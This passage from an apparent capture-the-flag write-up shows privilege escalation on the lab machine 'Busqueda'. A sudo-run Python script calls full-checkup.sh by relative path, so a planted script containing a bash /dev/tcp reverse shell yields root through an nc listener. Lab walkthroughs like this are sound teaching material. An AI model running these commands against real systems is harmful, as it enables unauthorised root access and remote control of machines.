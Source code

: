 This would seem to indicate that the custom script, 'system-checkup.py', isn't running the script 'full-checkup.sh' using an absolute path, but rather looking for the script in the current directory

We can test this by creating a file named 'full-checkup.sh' in our home directory and re-running the command

```console
svc@busqueda:~$ vim full-checkup.sh
svc@busqueda:~$ cat full-checkup.sh 
#!/bin/bash
echo test
svc@busqueda:~$ chmod +x full-checkup.sh 
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
test

[+] Done!
```

### Reverse shell using system-checkup.py

Adding a bash reverse shell command to our full-checkup.sh script produces a shell as root

```console
svc@busqueda:~$ vim full-checkup.sh
svc@busqueda:~$ cat full-checkup.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.145/4445 0>&1
svc@busqueda:~$ chmod +x full-checkup.sh 
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

```console
└─$ nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.10.14.145] from (UNKNOWN) [10.129.205.11] 49922
root@busqueda:/home/svc# 
```

## Beyond-root

### Vulnerability in system-checkup.py

With root access, upon examining system-checkup.py, we can confirm that it runs full-checkup.sh without using an absolute path

```python
root@busqueda:/home/svc# cat /opt/scripts/system-checkup.py
cat /opt/scripts/system-checkup.py
#!/bin/bash
import subprocess
import sys

actions = ['full-checkup', 'docker-ps','docker-inspect']

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

    return output


def process_action(action):
    if action == 'docker-inspect':
        try:
```